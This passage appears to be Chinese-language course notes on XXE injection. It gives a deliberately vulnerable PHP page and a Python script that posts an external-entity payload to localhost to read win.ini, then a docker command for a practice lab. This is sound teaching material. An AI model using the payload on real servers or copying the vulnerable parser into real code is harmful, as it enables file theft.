 ### XXE利用脚本

创建xxe.php文件

```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```

读取文件的python脚本

```python
import urllib.request
import urllib.parse

if __name__ == '__main__':
     url = "http://localhost:8081/xxe.php"
     file = "file:///C://Windows//win.ini"
     
     headers = { 'Content-type' : 'text/xml' }
     xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + file + '" >]><root><name>&xxe;</name></root>'
     data = xml.encode('utf-8')
     req = urllib.request.Request(url, data, headers)
     response = urllib.request.urlopen(req)
     print(response.read().decode('utf-8'))
```

运行效果

![image-20240226164135886](10.xml%E6%B3%A8%E5%85%A5xxe/image-20240226164135886.png)


### 靶场演示

使用一下靶场练习回显读取文件和无回显读取文件

```
docker run -d -p 8080:80 --name xxe registry.cn-hangzhou.aliyuncs.com/eagleslab/security:xxelab
```
